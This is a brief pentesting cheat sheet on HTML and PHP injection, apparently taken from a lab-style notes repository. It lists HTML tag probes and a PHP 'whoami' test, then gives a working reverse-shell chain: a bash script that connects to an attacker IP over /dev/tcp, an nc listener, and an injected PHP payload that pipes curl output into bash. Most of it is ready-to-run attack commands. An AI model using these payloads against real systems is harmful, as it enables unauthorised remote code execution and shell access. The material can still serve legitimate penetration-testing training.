 # HTML Injection



## HTML Injection Enumeration

Test HTML tags in input fields:

```markup
<h1>Hola</h1>
<marquee>Hola</marquee>
```

Test malicious code in other languages \(e.g PHP\)

```php
<?php system("whoami"); ?>
```

## Reverse Shell via PHP Injection

Create an index.html file in your webroot directory that actually executes bash code:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.28/443 0>&1
```

Set a listener on a port of your choosing:

```text
nc -lvnp 443
```

Inject a malicious PHP code:

```php
<?php system("curl 10.10.14.28 | bash"); ?>
```

